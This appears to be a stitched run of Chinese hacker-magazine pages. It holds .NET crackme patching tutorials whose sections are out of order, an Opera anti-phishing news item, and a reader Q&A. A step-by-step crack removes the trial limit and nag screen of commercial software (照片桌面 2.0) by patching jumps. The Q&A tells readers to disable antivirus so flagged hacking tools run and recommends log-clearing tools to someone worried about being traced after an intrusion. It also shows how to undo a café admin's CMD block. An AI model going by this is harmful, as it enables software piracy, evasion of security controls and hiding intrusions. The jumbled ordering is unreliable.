    Console.WriteLine("    CONGRATULATIONS    ");
}
else
{
    Console.WriteLine("Invalid serial");
    Console.WriteLine("Try again.");
}
```

如果你稍微懂点 C++ 语言，就可以看懂，源码在此。在 Visual C++ 中稍微编译一下，注册码就出来了。同样，作为作业布置给读者，希望读者认真完成。

## .net 破解第四例 ForUIC2

.net Reflector 载入程序，语言仍选择 VB，如图 9 所示。双击，来到右边：

```vb
Private Sub button1_Click(ByVal sender As Object, ByVal e As EventArgs)
    Dim text1 As String = Me.textBox1.Text
    Dim text2 As String = Me.textBox2.Text
    Dim builder1 As New StringBuilder
    Dim numArray1 As Integer() = New Integer(text1.Length - 1) {}
    Dim num1 As Integer = 0
    Do While (num1 < text1.Length)
        numArray1(num1) = (text1.Chars(num1) Xor ChrW(2))
        builder1.Append(numArray1(num1))
        num1 += 1
    Loop
    If (Me.textBox2.Text Is builder1.ToString) Then
        MessageBox.Show("Registrato! Bravo!", "Pbdz Crackme")
    Else
        MessageBox.Show("Codice sbagliato!!", "Pbdz Crackme")
    End If
End Sub
```

注册算法很简单。  
逐个取姓名，ASCII 码与 2 异或，连起来的十进制的数即为注册码。

例如：姓名输入 ab。  
a 的 ASCII 码为 97，97 异或 2 = 99。  
b 的 ASCII 码为 98，98 异或 2 = 96。  
故注册码为 9996。如图 10 是注册结果。

## .net 破解第五例 Dot_Net_ReverseMe_2

.net Reflector 载入程序，语言仍选择 VB，如图 11。很容易定位到 CheckReg()，双击，右边代码为：

```vb
Private Sub CheckReg()
    If Me.IsRegistered Then
        Me.lblMessage.Text = "Registered Well Done!"
    Else
        Me.lblMessage.Text = "Unregistered, get to work!"
    End If
End Sub
```

Me.IsRegistered 的值最关键，由上图下方的 IsRegistered: Boolean 可以知道，它是一个布尔值。我们需要找到给它赋值的地方。双击 .ctor()，右边为：

```vb
Public Sub New()
    Me.IsRegistered = False
    Me.InitializeComponent()
End Sub
```

结果如图 7。

切换语言为 IL，代码如下：

```il
.method public hidebysig specialname rtspecialname instance void .ctor() cil managed
{
    .maxstack 2
    IL_0000: ldarg.0
    IL_0001: ldc.i4.0 // 改为 ldc.i4.1
    IL_0002: stfld bool Dot_Net_ReverseMe_2.frmMain::isRegistered
    IL_0007: ldarg.0
    IL_0008: call instance void [System.Windows.Forms]System.Windows.Forms.Form::.ctor()
    IL_000d: ldarg.0
    IL_000e: call instance void Dot_Net_ReverseMe_2.frmMain::InitializeComponent()
    IL_0013: ret
}
```

鼠标停在 IL_0001: ldc.i4.0 行，看到 ldc.i4.0 指令的字节为 16。同样地，确定上下的字节分别为 02、7D。下面，UltraEdit 哥们儿该粉墨登场了。搜索 02167D，定位，然后，将 16 改为 17 即可。

## .net 破解第三例 SimpleCrackme.exe

这是一个 DOS 窗口程序，.net Reflector 载入程序，语言切换为 C#，如图 8。

双击 Main()，在右边得到：

```csharp
private static void Main(string[] args)
{
    Console.WriteLine();
    Console.WriteLine("********************************");
    Console.WriteLine("***      Simple crackme code in C#      ***");
    Console.WriteLine("***             written by             ***");
    Console.WriteLine("*** Mattia Buccarello (active85K) ***");
    Console.WriteLine("***      www.active85k.da.ru         ***");
    Console.WriteLine("********************************");
    Console.WriteLine();
    Console.WriteLine();
    Console.Write("User name (at least six chars): ");
    string text1 = Console.ReadLine();
    Console.Write("Serial N.: ");
    string text2 = Console.ReadLine();
    if (!Class1.IsSerialValid(text2))
    {
        Console.WriteLine("Invalid serial");
        Console.WriteLine("Try again.");
    }
    else
    {
        int num1 = text1.Length;
        if (num1 < 6)
        {
            Console.WriteLine("your user name must be at least six!!");
        }
        else
        {
            int num2 = 1;
            int num3 = 2;
            for (int num4 = 0; num4 < num1; num4++)
            {
                num2 *= text1[num4];
                num3 += (num2 + text1[num4] + ((num4 + 1) * 2));
            }
        }
    }
}
```

```vb
MessageBox.Show("Unregistered -- Get Rid Of Me!", "Nag Messagebox")
End Sub
```

切换语言为 IL，代码如下：

```il
.method private hidebysig instance void frmReverseMeMain_Load(object sender, [mscorlib]System.EventArgs e) cil managed
{
    .maxstack 2
    IL_0000: ldarg.0
    IL_0001: ldfld class [System.Windows.Forms]System.Windows.Forms.Button Dot_NET_ReverseMe_3.frmReverseMeMain::btnEnableMe2
    IL_0006: ldc.i4.0
    IL_0007: callvirt instance void [System.Windows.Forms]System.Windows.Forms.Control::set_Enabled(bool)
    IL_000c: ldstr "Unregistered -- Get Rid Of Me!"
    IL_0011: ldstr "Nag Messagebox"
    IL_0016: call valuetype [System.Windows.Forms]System.Windows.Forms.DialogResult [System.Windows.Forms]System.Windows.Forms.MessageBox::Show(string, string)
    IL_001b: pop
    IL_001c: ret
}
```

由于字节码不容易确定，因此，用 ILDasm 打开目标程序，定位到这里：

```il
.method private hidebysig instance void frmReverseMeMain_Load(object sender, class [mscorlib]System.EventArgs e) cil managed
{
    // SIG: 20 02 01 1C 12 15
    // 方法在 RVA 0x2324 处开始
    // 代码大小: 29 (0x1D)
    .maxstack 2
    IL_0000: ldarg.0
    IL_0001: ldfld class [System.Windows.Forms]System.Windows.Forms.Button Dot_NET_ReverseMe_3.frmReverseMeMain::btnEnableMe2
    IL_0006: ldc.i4.0 // 将 16 改为 17
    IL_0007: callvirt instance void [System.Windows.Forms]System.Windows.Forms.Control::set_Enabled(bool)
    IL_000c: ldstr "Unregistered -- Get Rid Of Me!"
    IL_0011: ldstr "Nag Messagebox"
    IL_0016: call valuetype [System.Windows.Forms]System.Windows.Forms.DialogResult [System.Windows.Forms]System.Windows.Forms.MessageBox::Show(string, string)
    IL_001b: pop
    IL_001c: ret
} // end of method frmReverseMeMain::frmReverseMeMain_Load
```

## .net 破解第六例 Dot_NET_ReverseMe_3.exe

- 任务：激活两个按钮，去掉两个 nag 窗口。
- .net Reflector 载入程序，语言仍选择 VB，如图 12。
- 双击，右边代码如下：

```vb
Private Sub frmReverseMeMain_Load(ByVal sender As Object, ByVal e As EventArgs)
    Me.btnEnableMe2.Enabled = False
    ' ... 第2个按钮激活与否的特征值 ...
End Sub
```

UltraEdit 打开程序，搜索 027B02000004166F1500000A，

定位，将其中的 16 改为 17，即 ldc.i4.0 改为 ldc.i4.1，则第二个按钮被激活。

常用的去掉消息框的方法，将 IL_000C 开始直到 IL_001B 为止的代码全部 nop 掉，即可去掉第一个 nag 消息框。注意：nop 在 .net 程序中，不是 90，而是 00，即以上重点标记的代码，在 UltraEdit 中修改即可。

接下来还有两个任务需要解决：激活第 1 个按钮，去掉第 2 个 nag 窗口。

双击 InitializeComponent():Void，右边代码中，定位这里：

```vb
Me.btnEnableMe1.Enabled = False  ← ××× 第1个按钮激活与否的特征值
Me.btnEnableMe1.FlatStyle = FlatStyle.Flat
Me.btnEnableMe1.Location = New Point(8, 8)
Me.btnEnableMe1.Name = "btnEnableMe1"
Me.btnEnableMe1.Size = New Size(272, 32)
Me.btnEnableMe1.TabIndex = 0


```

为方便定位代码位置，以利于今后的修改，我们用 IDA Pro 打开程序，记得选择 .net 程序，如图 13。

可见，代码位于 11BC 处，UltraEdit 打开程序，Ctrl+G，输入 0x11BC，如图 14。

定位，将其中的 17 改为 16，即 ldc.i4.1 改为 ldc.i4.0，则第 2 个 NAG 窗口被消除。成功后的界面如图 15。

通过以上的分析可以看出，不对 .net 程序进行加密处理是很恐怖的一件事情，你的源码几乎是完全透明的，清晰可见。因此，.net 程序必须用加密软件进行加密保护。.net 程序主要的加密软件有以下两大类：

- 1. **混淆类**
  - 1. 名称混淆，代表性的如 **Dotfuscator**。Dotfuscator 是比较初级的混淆器，采取的主要策略是通过把类名、方法名、变量名改成很短的形式（如只有一个字母），来破坏有意义的变量命名。
  - 2. 除了名称混淆外，还加入流程混淆，代表性的如 **XenoCode**。XenoCode 是稍微高级的混淆器，流程混淆主要是阻止 .net Reflector 的反编译。
- 2. **编译到本地代码类**
  - 1. **Remotesoft Protector**，国外一软件公司的加密产品。
  - 2. **MaxtoCode**，中国 Jason.NET 的作品。网址为 http://www.maxtocode.com/ ，它使用“点以随加”加密模式，在不损坏 .net MetaData 的前提下将 .net IL 代码进行加密封装，使 .net IL 代码根本无法被反编译。

如何破解经过加密后的 .net 程序呢？我们将在以后的《黑客手册》杂志中讨论，see you next time!

> **编辑点评：**
>
> 微软的 .net 战略搞得是红红火火，但知识产权的保护却成了其致命伤。统一有统一的好处，但这也同样意味着它将失去自身的特性，这便是 .net 的软肋。.net 的破解基本可以按照一个程式走下来的，菜鸟要笑了，比尔要哭了。

# 夜聊船

# 「Opera 9.1」にはフィッシング詐欺防止機能を搭載予定

领衔 XApache

Opera Software は 17 日、「Web ブラウザの次期メジャーバージョンである『Opera 9.1』にフィッシング詐欺防止機能を搭載する予定である」と発表した。Internet Explorer 7（IE7）や Firefox 2.0 にもフィッシング詐欺防止機能が搭載されるが、Opera はこれらとは少し異なる手法でユーザーの安全対策を講じるとしている。

Opera Software 在 17 日号宣称，确定下一个版本的「Opera 9.1」Web 浏览器将增加防钓鱼欺骗功能。Internet Explorer 7（IE7）和 Firefox 2 也具备了防钓鱼欺骗的功能，不过，Opera 为用户提供了稍微不同的保护手段以及安全对策。

Opera によると、Firefox でも Google や他のプロバイダが提供するリアルタイムフィッシング詐欺防止サービスをオンにしない限り、ただ単にブラックリストを確認するだけだという。また、IE7 では逆にホワイトリストをダウンロードしておくわけだと Opera は主张する。

根据 Opera 的说法，Firefox 和 Google 与其他服务提供商提供的实时反钓鱼欺诈服务对比，只是简单地使用了黑名单验证。而 IE7 则是相反地采用了下载白名单的方法。Opera 会做得更好。

これに対して Opera 9.1 では、「我々はリアルタイムで保護することが本当の意味で安全であると感じている。なぜなら、実際にフィッシング攻撃やウィルス攻撃によって、あっというまにとんでもない被害が非常に短い時間で生じている」と説明している。

对于 Opera 9.1 这个版本来说，「我们将拥有真正的实时保护」。因为现在的钓鱼攻击已经变得和病毒传播一般，可以在非常短的时间内产生极大的危害。

Opera のフィッシング詐欺防止機能の仕組みは次のようなものだ。Opera 9.1 では、ユーザーが新しいサイトを訪問するたびに Opera のサーバーにリクエストが投げられる。それには URL を識別するに必要な情報だけが送信される。Opera のサーバーには GeoTrust のデータベースがあり、URL はそれと照らし合わされる。サイトが危険な場合にはポップアップウィンドウが表示される。

Opera 的防钓鱼欺诈功能结构如下：Opera 9.1 每当用户访问一个新网站的时候，都会向 Opera 的服务器发送数据。当然，只有识别 URL 所需的少量信息会被发送。Opera 的服务器将 GeoTrust 的数据库内保存的信息和发送的 URL 作比对。当发现是危险站点时，popup 弹窗警告，浏览器会阻止用户访问该网站。另一方面，站点被访问一次后，浏览器将会把结果缓存一段时间，这样就防止了频繁访问服务器所产生的损失。

IE7 や Firefox 2.0 もそれぞれフィッシング詐欺防止機能に工夫を凝らしているが、フィッシング詐欺もますます巧妙になってくるだろう。自分が使用するブラウザのフィッシング詐欺防止機能の特性を理解しておくことが被害防止につながるかもしれない。

IE7 和 Firefox 2 在各自的防钓鱼欺诈功能上也在想方设法，不过，钓鱼欺诈作伪变得越来越巧妙了。说不定哪天自己以为理解的防钓鱼功能就被攻破呢？

# Cracker 的成长

## ——记照片桌面的破解
先定式，打开照片桌面 2.0 四处看看。

一个爆破者应该了解的东西：

- 1. 有什么限制（最重要）。
- 2. 什么保护方式。打开它的时候，它已经向我们说明了。

限制：十天试用期。点注册后，看到出来一个框，只有序列号。

当然，先用 PEiD 查看，一个 C++ 编的东西。没有加壳，太好了，笑 ^^。毫不犹豫，OD 载入。点注册，输入注册码，我喜欢用 123789。别忙着点确定，先回到 OD 下断，发现是一个 MFC 编的程序。糟糕，为何？因为它常常没有我们熟悉的函数，果然，找不到 GetDlgItemTextA，也没有 GetWindowTextA。现在有两种方法供我们选择。

- 1. 用 Kerberos 等软件监视，看它在注册时调用了哪个 API。由于 MFC 函数比较人性化，一看名字就知道它在干什么。
- 2. 先点确定，看它怎么样。它说：“无效的注册码！”你已经知道了我要干些什么吗？对，就是字符串查找。因为第二种方法比较简单，且不用其他工具，所以我选择了第二种。果然一查便到了关键的 call 处，如图 1。

看了这个图有何感想？太经典的注册了。第一个 call 核心 call，jnz 就是关键跳转，一定要跳。push 没有关系，那些都是往栈里压入参数。第二个 call 是提示错误的。是不是有一种冲动，想把 jnz 改成 jmp。当然，试试也是好的。改过之后，才知道启动的时候依旧有那个 nag 窗口。虽说你每一次输入序列号都对你说谢谢，可谢谢何时是个头啊，每次打开都输一次岂不很郁闷！遇到这种情况怎么办？这正是现在我们要探讨的问题。

我们不妨看看，注册成功之后，它在干什么。注意，在调试的时候尽量改标志寄存器，如图 2。我们只要在 Z 后的 1 上双击，本来 jnz 不跳的，现在 1 变成 0 后就可以跳了，比 jnz 改成 jz 快吧。现在我们已经知道了它在后面干什么，看看 OD 给我们的注释，重要的几条如下：GetWindowsDirectoryA、\pdtdtlmt_32.dll、fopen、fwrite。作何解释呢？首先调用 GetWindowsDirectoryA，取得路径。再加上 \pdtdtlmt_32.dll，即 c:\windows\pdtdtlmt_32.dll，然后再往它里面添东西，它启动时调用这个文件里面的东西，再来一次判断是否注册。明白了吗？我们去验证我们的猜想。C:\windows 下果然有这个文件。现在请不要忘记 GetWindowsDirectoryA，就让我们依靠它来帮助我们。因为软件在打开 pdtdtlmt_32.dll 之前，肯定也会先用这个函数获得系统目录所在。开始吧。

OD 载入，Ctrl + N（当前模块中的名称/标签，我建议广大 cracker 记一些快捷键，这样速度快些），找到 GetWindowsDirectoryA，点 Enter（查找导入表参考），全部下断。成功的第一步我们已经迈出。F9（运行），第二次 F9 就出现了讨厌的 nag，重新来过。Ctrl + F2（重新开始）。一下 F9，下面最爽的 F8 + F7 之前就开始了。先是随便 F8，走到 /*412699*/ CALL JMP.&MFC71.#2020_?DoModal@CDialog@@UAEHXZ，讨厌的 nag 窗口又出现了。

下面给大家展示一下稍稍有点变态的做法：删掉 pdtdtlmt_32.dll。为何呢？让我们进一步分析各个 call 的职能。我把它移到了 D 盘，为了以防万一。咱们再来 Ctrl + F2。现在走过 /*41245F*/ JNZ 照片桌面.0041257E 的时候，发现与刚才不一样了，得出一个结论：c:\windows 下面有 pdtdtlmt_32.dll 就跳，不跳就是没有这个文件，自动建一个。现在我们不用去管这个跳转之间的代码了。下面，目标锁定 /*4125F1*/ JE 照片桌面.004126E0，因为方圆千里之内，没有一个跳可以越过 /*412699*/（什么，你忘了它是干什么的？向上瞅瞅，就是出现 nag 窗口的地址），那么我们试试看吧！其实 OD 本身就是一个很好的汇编代码修改器，选定 /*4125F1*/ 这一行，直接在代码行上双击，或者右键单击，选择“汇编”（快捷键 Space），把 je 改成 jmp 或 jnz，再右键→复制到可执行文件→选择部分（注意选择主要修改的部分，因为我们只修改了一处，所以用“选择部分”；如果修改了多个地方，那么就要选择“所有改动”了）→保存文件即可。启动，哈哈 ^^，没有 nag 窗口了。

下面再来看看，为何它可以。上面那个理由太牵强了。打开 pdtdtlmt_32.dll 看看，尽是一些 1234567890 之类的，吓人一跳。知道它有些什么就够了。如图 3，eax 中出现了和 pdtdtlmt_32.dll 一模一样的数，说明现在我们必须注意了。发现它在如图 4 中的 call 内大发淫威，跟注册过程很像。具体的我也不介绍了，否则，咱们就是分析算法、找序列号了。这样一来，又有多少兴致勃勃的初来乍到的 Cracker 伤心绝望。

最后测试，这是爆破工作者都该做的，只有经过测试才可以知道软件是否被破解完成了。把日期向后调一个月，出现了两种不同的情况：破解版本是成功打开，原版是提示注册。到此，破解工作完成。

总结一下，这次我们用的是爆破。作为爆破和分析算法找出它的序列号的最大区别，是方法不同。假如是分析算法，那么，我们应该死盯关键 call /*00403E88*/，然后分析每一步都在干什么。但爆破就不同，爆破不用太懂汇编，但是你必须了解一些重要 call 的作用，换句话说就是爆破要见其大；分析算法要锱铢必较。

> **编者点评：**  
> 基本上每期都会有关于“爆破”的文章，不知道你掌握了没有。有的人瞧不上爆破，觉得没有技术含量，但它却是最有效的破解方法，够用就好。
## NOHACK

主持人：POP

回想起当年（昨年）问问题的时候，只是一味地发问，没有考虑这问问题还有多少智慧。直到看到那篇经典的《提问的智慧》（URL：http://www.nohack.cn/bbs —— 菜鸟解惑 — 固顶《提问的智慧（英文版）》）和小四哥的《你尽力了吗？》（URL：http://www.nohack.cn/bbs/ —— 服务器渗透＆安全配置 — 固顶《你尽力了吗？》—— 小四哥经典文献），才有所顿悟。推荐新手朋友们都去看一下。问问题是一门艺术，通过发问可以从解答过程中获得很多；而对于一些相对简单些的问题，如果可以自己找出答案，那印象会非常深刻，理解也会更透彻。所以在发问之前，你应该先在谷歌或百度上寻求答案。等到你自己找到答案的时候，你会发现这个过程中的快乐！

# Q&A

**Q：** 我是你们的一个读者，最近的一个月实在是让人难以忍受，我一上网就让人给黑了，就是别人修改了 Windows 操作系统使我无法浏览网页。所以我格式化了硬盘，主板跳线了，刷了 BOOT，可是用软件在重新安装机器后还是发现了恶意代码。所以每次安完机器后上网立刻就被人给黑了。代码删除不了，怎么办呢？一上网就被黑了，已经一个月了。只能换主板吗？还有就是上红客网的那个在线木马检测中发现了很多隐形木马，怎么清除？杀毒软件一点用都没有！什么 Windows 木马清道夫。我去过网吧，别人的电脑都有同样的木马怎么办呢？一个想想就可怕的读者，衷心地希望能得到你的一些帮助。

**A：** 其实你的问题并不是像你说得那么严重，只是你的木马可能过于顽固，所以清除起来有很多的麻烦。有时候重新格式化硬盘和重新安装系统并不是最好的选择，要对症下药。

- 1. 首先你需要对系统里面的重要文件备份，然后对整个硬盘进行格式化。这还不够，最好删除里面的分区，然后重新分区。
- 2. 重新安装一个新的操作系统。这里不要求随便买一张系统盘来安装，或许你买的系统盘就有问题，建议你去安装联想 OEM 版本的操作系统或者番茄花园的。
- 3. 这样就基本是一个新的电脑了，应该来说是没有问题的。但是还有一个大的问题在后面，或许你觉得这些很完美，而你的习惯可能会导致木马的再次光顾。我个人建议仔细想想以前自己上的网站有没有带广告插件之类的，这些就是一些恶意代码的根源。
- 4. 不要过于相信其他人的一些话语，以及一些软件的提示，要多多针对自己的机器来找解决的办法。

经常做好系统的维护，经常打补丁，安装一个可以及时升级病毒库的杀毒软件等。

**Q：** 你好！我今天晚上下载光盘上的 C.I.A 远程控制软件，解压后，也没有找到服务端执行程序，于是就想关了。但是在我删除它时，弹出无法删除 icons 文件夹的信息，已经使用杀毒软件杀过了，防火墙扫描也工作过发现了，但是防火墙的日志里又找不到信息。我想登录安全模式，但是防火墙蓝屏，请问我该怎么办？

**A：** 这个应该是杀毒软件的问题。因为光盘是一个特殊的盘符，它是无法读写的，所以你的杀毒软件提示有病毒的时候，你是删除不掉的。

解决办法：

- 1. 首先把光盘弹出，然后关闭杀毒软件的监视。这个时候再插入光盘，把里面的文件下载到自己的电脑上。
- 2. 不能进入安全模式的原因是很多的。我没有看见具体的情况，也不好给你一个正确的解决办法。不过我给你几个可能的原因：第一，可能是软件的文件、内存、硬盘之类是否有松动的情况，但这些可能性都不是很大的；第二，可能是启动原因造成的，你可能启动的时候还是把光盘放在光驱，而启动设置里面是 CD-ROM 引导。由于这个光盘是没有启动功能的，所以会蓝屏。建议你取出光盘，把启动换成 HDD-0。具体操作如下：开机→按 Del→进入 BIOS→Advanced BIOS Features→First Boot Device→设置为 HDD-0→F10→Y→回车。

**Q：** 贵编：你好！我在你们的期刊上下载的远程控制软件怎么没有服务端，一共 6 个不同的控制软件都没有，请问这是怎么回事？是不是杀毒软件的问题？如果是，该怎么解决，杀毒软件该怎么关闭呀？我用的是瑞星，满意回复，谢啦！

**A：** 这里肯定应该是杀毒软件的问题了。瑞星杀毒软件和很多杀毒软件不同，你下载的时候它就会监视，如果下载的文件有被追杀的程序，它就会直接在压缩包里面删除。因为很多的远程控制软件都被瑞星定义为“黑客软件”，所以你解压出来都是没有主程序的。

解决办法：在还没有下载之前就关闭瑞星的监控。具体操作：在“任务栏”右下角使用“右键”点击一下瑞星的图标，然后选择“禁用所有监视”，然后再重新下载即可。

**Q：**
- 1. 请把 mt.exe 十六进制代码发给我好吗？
- 2. 用 Log Monitor 把 U 盘制作成电脑钥匙时，可否把监控文件放在已被 LOCK IT EASY 软件加密过的磁盘空间里（在一般情况下，进入已加密的空间要输入密码）？
- 3. 用 SYSKEY 进行系统的双加密好吗？使用时在生成的“REPAIR”文件下的注册表文件会覆盖以前的注册表，会造成一些软件和硬件的一些东西丢失。我的笔记本是 ThinkPad 的 T60p 2007-83C，我使用时会对我的电脑造成什么损失（丢失，有指纹识别就够了，可如果指纹不正确也很烦，我的宝贝们老是乱弄我的本本）？
- 4. 像我这种什么都不懂的菜鸟，要成为黑客，最先要学什么？我想学习 C++ 语言，可我还在上高中，所以不能去专业的学校，只能先自己看书。现在哪一种书是最专业的？

新版的 NOHACK 我比较喜欢，祝贵刊越办越好！谢谢！——我是小菜，别黑我！

**A：**
- 1. mt.exe 的 16 进制代码其实很好获得。首先你下载一个 mt.exe，然后使用 PEiD 对它进行查壳，网上流传的好像都是 UPX 的壳，可以使用 UPX 的脱壳机对其进行脱壳处理。这样一个原版的 mt.exe 就诞生了，然后使用 16 进制的编辑器如 WinHex、UE 等，就可以获得 16 进制的代码了。
- 2. 关于加密的问题，我还不是很清楚。不过我给你一个资料，你再自己动手测试一下。Log Monitor 1.4.2 简体中文版（http://www.ysye.com/soft/691.html），里面还有它的使用说明。
- 3. 学习黑客的话，主要是一个时间的问题，需要多多地积累，不一定非得从什么学起。入门阶段的话，自己对什么感兴趣就可以从什么着手。学习 C++，我个人建议自己动手学习，多在网上找一些资料，多去一些 C++ 的论坛交流。买书不一定是最好的选择，主要还是自己的实践。

**Q：** 小编哥哥，能不能收我做徒弟？我今天买了你们出的《黑客手册》，我的 QQ 最近也是被文章中的“获得免费 QQ 币”的方法给“激活”了好几次。555555，软件之类我都不会。希望小编哥哥能够收我做徒弟！拜托了！

**A：** QQ 被盗很多的原因，就是中了别人的盗 QQ 木马，所以想要 QQ 不被盗就必须做好电脑的安全防护。

解决办法：

- 1. 安装一个杀毒软件。个人建议，家用电脑安装瑞星就比较好。但并不是安装一个杀毒软件就能完事，最重要的就是能及时地升级病毒库。现在瑞星正版是需要人民币来购买的，要是有经济实力可以考虑去买正版。不过，对于一般的人，我建议使用“瑞星升级保姆”来解决病毒库的升级问题。像“瑞星下载版”以及“瑞星升级保姆”都可以在 http://www.crsky.com/default.htm 下载。
- 2. 中别人木马很多的原因就是因为乱开了网站，中了别人的网页木马。除了上面安装一个杀毒软件以外，还需要防止一些未知的网页木马，所以我们需要及时地打好系统补丁。打系统补丁的方法如下：点击系统左下角的“开始”，然后就可以看见 Windows Update，点击一下，打开网页之后，按照网页的说明就可以很快地打上补丁了。
- 3. 还有就是我想告诉你，再好的杀毒软件和再频繁的升级系统补丁，也比不过一个善于防范的大脑。自己要时刻注意这些木马，多多总结木马的表现形式，便于自己中了木马之后能解决。

**Q：** 您好！我很高兴买到《黑客手册》，上 WWW.NOHACK.CN 下载“初级黑客实用工具包”的时候，在网页出现 hacktool 这个病毒，怎么办？问一下，用软件读取网吧密码的时候，那个软件总是打不开，还是 hacktool 病毒，怎么办！谢谢！——佳佳晓风

**A：** 首先我给你解释一下什么是“hacktool”。其实可以直接从字面上解释，直译是“黑客工具”，因为现在很多黑客工具带有一定的危害性，为了保证用户的安全，杀毒软件就把“黑客软件”也定义为了病毒。

软件打不开，这里就有一些其他的知识了。有的软件为了逃避杀毒软件的追杀，所以针对杀毒软件做了一下文件的免杀，但是忽略了内存的免杀。因为软件使用的时候会占用内存，所以杀毒软件也监视到了内存上面，只要一使用这个软件，杀毒软件就会追杀，所以不用的时候不会报警，一点就被杀了，从而不能打开软件。

解决办法：直接关闭杀毒软件的监视就可以了。各种杀毒软件的关闭方式可能不同，但是都很简单。这里就给你介绍一下瑞星的关闭方法：在“任务栏”右下角使用“右键”点击一下瑞星的图标，然后选择“禁用所有监视”即可。

**Q：** 各位黑大叔、黑大哥、黑大姐！你们好。俺是学外语的，不懂计算机。但俺好学，有师傅教，俺会进步很快的。希望能得到你们的帮助。前天学校的数据库被黑了。不知道是谁？会不会查到是我？就这样了，拜拜。

**A：** 呵呵。这个问题问得很幼稚，但是也具有一定的代表意义，特别是一些新入门的朋友也很想知道。中国不是有一句古话吗？“要想人不知，除非己莫为”，要是你没有做的话，那你有什么害怕的呢？要是你入侵过，那么在别人的电脑上肯定会有一些日志等，建议你使用一些清除日志的软件，例如 **ClearLogs 1.0**，下载地址以及使用说明：http://www.onedown.net/soft/17152.htm

**Q：** 在网吧打不开 CMD 了？我在网吧新建文本，然后变成批处理格式来运行，可是说命令已经给管理员禁用，有什么办法解决？

**A：** 这一看就是被管理员修改了设置。大家都知道修改系统设置无非是对注册表进行修改，所以我们找到注册表的相应键值，然后做一下小小的修改就可以搞定了。

解决办法：

1. 通过修改注册表，可以禁止用户使用命令解释器 CMD.exe 和运行批处理文件（BAT 文件）。进入到注册表项 **HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System** 中，新建一个双字节值项 **DisableCMD**，修改其值为 2，则命令解释器和批处理文件都不能够被运行。如果只是禁止命令解释器的运行，而允许批处理文件运行，则修改 DisableCMD 的值为 1。既然 1、2 都是禁止，那么 0 是什么呢？当然是没有限制啦，把下面内容保存为 *.reg* 文件，双击就可以对注册表的具体键进行修改了。

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System]
"DisableCMD"=dword:00000000
```

说明：reg 是注册表文件，[] 是注册表的具体路径，“”是键名，dword 是键的类型，00000000 是键值。

2. 开始→运行→**gpedit.msc**→用户配置→管理模板→系统，在右侧找到“阻止命令提示符”，然后双击一下，在“设置”里面选中“未配置”，最后点击“确定”。

**Q：** 怎么样来修改我的电脑里“共享文档”的名字？不知道是什么原因，把“共享文档”的名字改成“Documents”了，我现在想改回来，可是找了好长时间也没有找到解决的办法，希望大家帮一下忙，谢谢了。

**A：** 这个问题首先涉及到了一个快捷方式的问题，直接打开“我的电脑”上面那个“共享文档”名字是改不了的，因为它是一个快捷方式。我们只需找到其真正的地址，然后对文件夹进行修改就可以了。

解决办法：打开“我的电脑”，然后找到真正的文件夹地址：**C:\Documents and Settings\All Users**，在这里我们就可以像修改一般文件夹一样对“共享文档”进行改名了。修改之后再打开“我的电脑”，看是不是名字已经被修改了。

**Q：** 9505 的病毒怎么清除？前几天无意间浏览了 www.9505.com 这个网站，中了劫持木马，听说格盘都无法彻底清除，求高手指点彻底的清除方法？

**A：** 该病毒运行后会将自身复制到系统文件目录中，文件名为 msprt.dll，同时将自身复制到 QQ 软件安装目录下。同时从互联网上下载染毒的 Riched32.dll 文件覆盖原有文件，使用户启动 QQ 时自动运行病毒。病毒会将用户 IE 浏览器的主页锁定为一个名叫“9505 上网导航”的网站，以提高该网站的访问量。该病毒还会修改系统配置文件，使用户访问其他网站时自动跳转到“9505 上网导航”网站。

- 1. 下载 360 安装程序（千万别删除安装程序，装了也没用，一用就关机）。
- 2. 重新启动电脑，按 F8 进安全模式。
- 3. 打开任务管理器找到 explorer.exe，关闭此进程！然后在任务管理器上单击“文件→新建任务”，输入 explorer.exe 打开。
- 4. 安装 360，进行全面清除。
- 5. 再重新启动电脑后，一切就好了，IE 又恢复了原来的面目！

IE 首页被锁定可使用 4199/9505 专杀工具：  
http://www.pcav.cn/soft/zsgj/qtzsgj/200610/681.html

URL：http://nohack.cn/bbs/thread-51855-1-1.html

**Q：** 菜鸟学虚拟机，问几个常识！虚拟机能上网吗？如果在虚拟机上用黑客软件会被杀毒软件杀吗？虚拟机会中病毒吗？会中毒的话，又怎么办呢，会影响正在进行的操作系统吗？

**A：** 虚拟机是可以上网的。虚拟机是一个运行在你的电脑上的单独操作系统，要是你的虚拟机安装了杀毒软件，同样也会被杀；但是要是本机安装，虚拟机不安装，本机的杀毒软件是杀不到的。

虚拟机同样也是一个系统，同样也会中毒，不过虚拟机有一个“快照”的功能，先做一个“快照”之后，要是中毒了，恢复一下“快照”就可以了。

虚拟机中毒之后是不会影响到本机的正常操作的，因为虚拟机是一个单独、独立的系统。

下面是对虚拟机的介绍以及下载地址：http://3800hk.com/Soft/zqpj/5180.html

URL：http://nohack.cn/bbs/thread-51780-1-2.html

**Q：** 请问下我打开 QQ 出现键盘加密保护失败怎么办？

**A：** 造成 QQ 键盘加密保护失败的原因大致上有两种。第一，QQ 目录下的“npkcrypt.dll”和“npkcrypt.sys”文件被损坏了，建议你重新安装一下 QQ，或者安装最新版本的 QQ。QQ 下载地址：http://im.qq.com。第二，中了某些盗 QQ 的木马，如网控 QQ 木马等。这种木马能使 QQ 的 nProtect 加密技术失效，其实就是把 nProtect 文件的后缀名 sys 改成其他的后缀，让它不能工作了。建议你用卡巴杀一下毒，要是不行的话，那么就重新安装一下系统，重新安装一下 QQ。

URL：http://nohack.cn/bbs/thread-51459-1-7.html

# 读编互动

# NO HACK

城市／河北保定  
论坛ID／李夜  
邮件／yueding962253@sina.com

—对某篇文章的读后感：  
文章名称：寂寞花开  
读后感：感觉很有真实感，不由得想到自己的以后，会不会……好像很多都是这样的。

小编：本来现实生活就有不少压力了，何必再去想像以后的事情，来徒增几分烦恼呢。

城市／济南  
论坛ID／laojian  
邮箱／clbct@163.com

—对某篇文章的读后感：  
文章名称：北大又被黑咯  
读后感：不错，作者会不会被北大录取，没想到中国最高学府的安全性如此的低，为什么北大还用 NT 系统，用 Unix、Linux、FreeBSD 多好。

小编：个人感觉用什么系统不重要，重要的是管理员对这种系统的驾驭能力，安全不是一劳永逸的工作，而是需要与时俱进的学习和强烈的责任感。安全也是相对的，古人亦知道：百密而难免一疏。黑了北大就会被北大录取，这个逻辑关系应该不成立，况且该作者本身已经是大几的学生了。

城市／唐山  
论坛ID／泪痕  
邮箱／21632491@163.com

—对某篇文章的读后感：  
文章名称：对话职业黑客——走近 WORD 漏洞发现者  
